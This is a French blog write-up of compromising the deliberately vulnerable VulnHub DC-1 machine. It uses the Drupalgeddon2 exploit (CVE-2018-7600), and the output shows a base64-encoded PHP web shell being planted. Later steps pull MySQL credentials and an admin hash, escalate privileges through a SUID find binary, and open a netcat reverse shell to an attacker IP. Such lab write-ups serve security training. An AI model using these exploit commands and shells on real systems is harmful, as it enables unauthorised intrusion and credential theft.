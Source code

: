 ```yaml
---
layout: post
title: VulnHub - DC-1 write-up
subtitle:  OSCP-like box
gh-repo: 0xSs0rZ/0xSs0rZ.github.io
tags: [VulnHub, OSCP, Linux, Drupal, Drupal 7, Drupalgeddon, SUID, find, CVE-2018-7600, Web, CMS, MySQL]
---
```


**DC-1 est une machine Linux disponible sur [VulnHub](https://www.vulnhub.com/entry/dc-1,292/){:target="_blank"}. Il s'agirait d'une ['OSCP-like VM'](https://zayotic.com/posts/oscp-like-vulnhub-vms/){:target="_blank"}... Cette box permet d'exploiter la vulnérabilité CVE-2018-7600 aka Drupalgeddon 2**

# User

Port 80:

![Drupalgeddon-1.png](/img/Drupalgeddon-1.png)

Nmap: 

![Drupalgeddon-2.png](/img/Drupalgeddon-2.png)

On a donc un Drupal 7. Cette version de Drupal est vulnérable à la CVE-2018-7600, Drupalgeddon2 :)

On utilise l'exploit de dreadlocked: `git clone https://github.com/dreadlocked/Drupalgeddon2.git`

~~~
root@Host-001:/tmp/Drupalgeddon2# ruby drupalgeddon2.rb http://vulnserver.xyz
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://vulnserver.xyz/
--------------------------------------------------------------------------------
[!] MISSING: http://vulnserver.xyz/CHANGELOG.txt    (HTTP Response: 404)
[!] MISSING: http://vulnserver.xyz/core/CHANGELOG.txt    (HTTP Response: 404)
[+] Found  : http://vulnserver.xyz/includes/bootstrap.inc    (HTTP Response: 403)
[+] Header : v7 [X-Generator]
[!] MISSING: http://vulnserver.xyz/core/includes/bootstrap.inc    (HTTP Response: 404)
[!] MISSING: http://vulnserver.xyz/includes/database.inc    (HTTP Response: 403)
[+] Found  : http://vulnserver.xyz/    (HTTP Response: 200)
[+] Metatag: v7.x [Generator]
[!] MISSING: http://vulnserver.xyz/    (HTTP Response: 200)
[+] Drupal?: v7.x
--------------------------------------------------------------------------------
[*] Testing: Form   (user/password)
[+] Result : Form valid
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Clean URLs
[+] Result : Clean URLs enabled
--------------------------------------------------------------------------------
[*] Testing: Code Execution   (Method: name)
[i] Payload: echo WPGWFIYR
[+] Result : WPGWFIYR
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Existing file   (http://vulnserver.xyz/shell.php)
[i] Response: HTTP 404 // Size: 13
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[i] Fake PHP shell:   curl 'http://vulnserver.xyz/shell.php' -d 'c=hostname'
DC-1>> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
DC-1>> ls
COPYRIGHT.txt
INSTALL.mysql.txt
INSTALL.pgsql.txt
INSTALL.sqlite.txt
INSTALL.txt
LICENSE.txt
MAINTAINERS.txt
README.txt
UPGRADE.txt
authorize.php
cron.php
flag1.txt
includes
index.php
install.php
misc
modules
profiles
robots.txt
scripts
shell.php
sites
themes
update.php
web.config
xmlrpc.php
DC-1>> cat flag1.txt
Every good CMS needs a config file - and so do you.
DC-1>> 
~~~

Selon [1], des mots de passe seraient stockés dans `sitename/sites/default/settings.php`.

Vérifions: 

![Drupalgeddon-3.png](/img/Drupalgeddon-3.png)

On a des credentials pour mysql. Testons-les:

`mysql -u dbuser -h localhost --password='R0ck3t' -e"use drupaldb; select * from users;"`

![Drupalgeddon-4.png](/img/Drupalgeddon-4.png)

Cool, on a les credentials: `admin::$S$DvQI6Y600iNeXRIeEMF94Y6FvN8nujJcEDTCP9nS5.i38jnEKuDR`

On essaye de cracker le hash mais ça prend trop de temps: `hashcat -m 7900 hash /usr/share/wordlists/rockyou.txt`

# PrivEsc

SUID ? `find / -perm -u=s -type f 2>/dev/null`

![Drupalgeddon-5.png](/img/Drupalgeddon-5.png)

find est un très bon choix pour une élévation de privilège :) 

Exploit: `find . -exec /bin/sh \; -quit` [2]

Le shell de l'exploit de dreadlocked est plutôt limité... Si on avait le mdp d'un compte on pourrait essayer de se loguer via ssh pour obtenir un shell mais là on a pas de mdp :( 

Du coup, on va utiliser un autre exploit pour obtenir un reverse-shell: [https://github.com/pimps/CVE-2018-7600](https://github.com/pimps/CVE-2018-7600){:target="_blank"}

`python3 drupa7-CVE-2018-7600.py http://vulnserver.xyz -c "nc [IP] 1337 -e /bin/bash"`

![Drupalgeddon-6.png](/img/Drupalgeddon-6.png)

![Drupalgeddon-7.png](/img/Drupalgeddon-7.png)

# Références

[1] Drupal Forum, [Where are the database username and password stored ?](https://www.drupal.org/forum/support/post-installation/2017-01-13/where-are-the-database-username-and-password-stored){:target="_blank"}
[2] GTFOBins, [find](https://gtfobins.github.io/gtfobins/find/){:target="_blank"}

**Poursuivez avec :** 

- [TryHackMe - Sudo Vulns](https://0xss0rz.github.io/2021-05-11-THM-Sudo-Vulns/)

- [San Diego CTF 2021 - Git Good](https://0xss0rz.github.io/2021-05-10-San-Diego-CTF-Git-Good/)

- [JISCTF 2020 - Quals](https://0xss0rz.github.io/2020-11-22-JISCTF-2020-Quals/)

[![CC-BY](https://mirrors.creativecommons.org/presskit/buttons/88x31/svg/by.svg)](https://creativecommons.org/licenses/by/4.0/)

This work is licensed under a [Creative Commons Attribution 4.0 International License](https://creativecommons.org/licenses/by/4.0/).
